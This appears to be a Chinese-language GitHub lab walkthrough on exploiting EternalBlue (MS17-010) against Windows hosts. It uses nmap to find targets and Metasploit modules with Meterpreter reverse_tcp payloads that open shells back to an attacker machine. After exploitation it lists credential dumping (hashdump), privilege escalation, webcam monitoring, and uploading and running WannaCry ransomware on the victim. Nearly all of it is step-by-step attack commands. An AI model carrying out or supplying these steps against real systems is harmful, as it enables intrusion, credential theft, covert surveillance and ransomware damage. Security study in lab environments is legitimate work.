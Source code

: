 # 永恒之蓝-漏洞利用
## 环境
宿主机:	192.168.43.152 \
kali:	192.168.43.1 \
win32:	192.168.43.3（防火墙允许文件与打印机共享) \
win64:	192.168.19.2（防火墙允许文件与打印机共享)

## 主机发现
`nmap -n -p445 --script smb-vuln-ms17-010 192.168.19.154 --open` \
也可以用 \
`nmap -n -p445 192.168.43.2` \
`>nmap ms17-010`    定向扫描,发现端口开放并存在ms17-010 漏洞

## 使用msf框架攻击win64
<pre>
msfconsole                                          /*进入msf>*/
version                              /*确保MS框架版本在 4.14.17以上,否则请apt-get install*/
search search ms17_010                          /*漏洞模块路径查询，搜索到了 4 个相关的插件:*/
auxiliary/admin/smb/ms17_010_command
auxiliary/scanner/smb/smb_ms17_010
exploit/windows/smb/ms17_010_eternalblue
exploit/windows/smb/ms17_010_psexec
</pre>
其中前2个插件是auxiliary下的，属于辅助验证程序,用来扫描的。3和4是exploit下的,用来攻击。 \
 \
注意到,msf的模块目录是在/usr/share/metasploit-framework/modules
<pre>
use exploit/windows/smb/ms17_010_eternalblue            /*调用攻击模块*/
show options                                            /*查看参数,并设置：*/
set RHOST 192.168.43.2                                /*设定攻击目标*/
show payloads                                        /*查看详细信息*/
set payload windows/x64/meterpreter/reverse_tcp        /*配置攻击载荷*/
set LHOST 192.168.43.1                              /*设置操作机地址,即kali本机地址*/
exploit                                          /*发起攻击,也可以用`run`*/
</pre>
出现win -success!就成功了。

## 可以试试以下操作，或者help
<pre>
getuid，sysinfo                     /*查看系统信息*/
webcam_list                  /*看看被控制的电脑有没有摄像头,如果有用`webcam_stream`命令可以打开摄像头监控*/
route                            /*查看路由表 */
screenshot                        /*桌面截图，很卡* /
shell                        /*打开命令行，然后可以ipconfig/whoami/net user*/
ps                               /*看看开了哪些杀毒软件，内网一致*/
kill
hashdump
getsystem

提权
upload wcry/wcry.ext c:\
upload wcry/FILE_ID.DIZ c:\
execute -f c:\wcry.exe
上传和执行勒索病毒
</pre>
## 使用msf框架攻击win32
<pre>
use exploit/windows/smb/ms17_010_psexec
set RHOST 192.168.43.3
set payload windows/meterpreter/reverse_tcp
show options                                   /*查看设置好的参数*/
set LHOST 192.168.43.1
set SMBUser aleecy                          /*32位机的账号*/
set SMBPass 0                              /*32位机的密码*/
exploit
</pre>

## 更多参考：
http://www.sqlsec.com/2018/03/smb.html \
https://blog.csdn.net/zmeixuan/article/details/77587370 \
http://www.freebuf.com/articles/system/132274.html

## 清理重载msf：
`/etc/init.d/postgresql restart` \
`reload_all`
